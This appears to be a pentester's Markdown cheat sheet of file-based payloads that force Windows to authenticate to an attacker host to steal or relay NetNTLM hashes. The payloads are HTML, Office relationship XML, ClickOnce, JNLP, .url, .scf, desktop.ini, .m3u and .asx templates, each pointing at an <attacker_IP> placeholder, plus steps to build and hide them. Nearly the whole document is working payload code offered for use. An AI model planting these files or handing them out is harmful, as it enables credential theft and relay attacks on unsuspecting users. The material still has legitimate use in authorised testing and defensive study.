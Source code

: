 # Manual

## 01 - Internet Explorer or Microsoft Edge

```html
<!DOCTYPE html>
<html>
	<img src="file://<attacker_IP>/leak/leak.png"/>
</html>
```

## 02 - Microsoft Office subDoc

Extract `.docx` file using `7zip` or `unzip` and modify the contents in `word\_rels\settings.xml.rels`.

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships">
	<Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="file://<attacker_IP>/leak/Template.dotx" TargetMode="External"/>
</Relationships>
```

Using a URL handle with `ms-word:ofe|u|` scheme can trigger SMB relay.

```html
<!DOCTYPE html>
<html>
	<script>
		location.href = 'ms-word:ofe|u|\\<attacker_IP>\leak\leak.docx';
	</script>
</html>
```

## 03 - ClickOnce

TODO: check `.manifest` and `.appref-ms` to reproduce it.

Name it with `.application` extension.

```xml
<?xml version="1.0" encoding="utf-8"?>
<asmv1:assembly xsi:schemaLocation="urn:schemas-microsoft-com:asm.v1 assembly.adaptive.xsd" manifestVersion="1.0" xmlns:dsig="http://www.w3.org/2000/09/xmldsig#" xmlns="urn:schemas-microsoft-com:asm.v2" xmlns:asmv1="urn:schemas-microsoft-com:asm.v1" xmlns:asmv2="urn:schemas-microsoft-com:asm.v2" xmlns:xrml="urn:mpeg:mpeg21:2003:01-REL-R-NS" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
	<assemblyIdentity name="Leak.app" version="1.0.0.0" publicKeyToken="0000000000000000" language="neutral" processorArchitecture="x86" xmlns="urn:schemas-microsoft-com:asm.v1" />
	<description asmv2:publisher="Leak" asmv2:product="Leak" asmv2:supportUrl="" xmlns="urn:schemas-microsoft-com:asm.v1" />
	<deployment install="false" mapFileExtensions="true" trustURLParameters="true" />
	<dependency>
		<dependentAssembly dependencyType="install" codebase="file://<responder ip>/snare/Program.exe.manifest" size="32909">
			<assemblyIdentity name="Program.exe" version="1.0.0.0" publicKeyToken="0000000000000000" language="neutral" processorArchitecture="x86" type="win32" />
			<hash>
				<dsig:Transforms>
					<dsig:Transform Algorithm="urn:schemas-microsoft-com:HashTransforms.Identity" />
				</dsig:Transforms>
				<dsig:DigestMethod Algorithm="http://www.w3.org/2000/09/xmldsig#sha1" />
				<dsig:DigestValue>ESZ11736AFIJnp6lKpFYCgjw4dU=</dsig:DigestValue>
			</hash>
		</dependentAssembly>
	</dependency>
</asmv1:assembly>
```

## 04 - Shortcut LNK

TODO: Show it step by step.

```

```

## 05 - Java Web Start

Name it with `.jnlp` extension.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<jnlp spec="1.0+" codebase="" href="">
	<resources>
		<jar href="file://<<attacker_IP>>/leak/leak.jar"/>
	</resources>
	<application-desc/>
</jnlp>
```

## 06 - Internet Shortcut File

SMB link and name it with `.url` extension.

```
[InternetShortcut]
URL=https://website.com
IconIndex=0
IconFile=\\<attacker_IP>\snare\file.ico
```

WebDAV link.

```
[InternetShortcut]
URL=file://<attacker_IP>/@snare
```

## 07 - Shell Command Files

> [!INFO]
> Windows 10 or later no longer supports `.scf`.

Name it with `.scf` extension.

```
[Shell]
Command=2
IconFile=\\<attacker_IP>\snare\file.ico
[Taskbar]
Command=ToggleDesktop
```

## 08 - Desktop.ini

Name it with `.ini` extension.

```
C:\> mkdir openMe
attrib +s openMe
cd openMe
echo [.ShellClassInfo] > desktop.ini
echo IconResource=\\<attacker_IP>\snare >> desktop.ini
attrib +s +h desktop.ini
```

```
[.ShellClassInfo]
IconResource=\\<attacker_IP>\snare
```

## 09 - Windows Media Player

Name it with `.m3u` extension.

```
#EXTM3U
#EXTINF:1337, Snare
\\<attacker_IP>\file.mp3
```

Name it with `.asx` extension.

```
<asx version="3.0">
	<title>Leak</title>
	<entry>
		<title></title>
		<ref href="file://<attacker_IP>/snare/file.wma"/>
	</entry>
</asx>
```

---
## References

### Rhino Security Labs

- [Rhino Security Labs: Abusing Microsoft Word Features for Phishing - "subDoc"](https://rhinosecuritylabs.com/research/abusing-microsoft-word-features-phishing-subdoc/)

### Securify

- [Securify: Living off the Land Stealing NetNTLM Hashes](https://www.securify.nl/blog/living-off-the-land-stealing-netntlm-hashes/)

### Osanda

- [Osanda: Places of Interest in Stealing NetNTLM Hashes](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)

### Mubix

- [Malicious.link: SMB/HTTP Auth Capture via SCF File](https://room362.com/posts/2016/smb-http-auth-capture-via-scf/)

### 1337Red

- [1337red: Using A SCF File to Gather Hashes](https://1337red.wordpress.com/using-a-scf-file-to-gather-hashes/)

### Pentest Lab

- [Pentestlab Blog: Microsoft Office - NTLM Hashes via Frameset](https://pentestlab.blog/2017/12/18/microsoft-office-ntlm-hashes-via-frameset/)

- [Pentestlab Blog: SMB Share SCF File Attacks](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)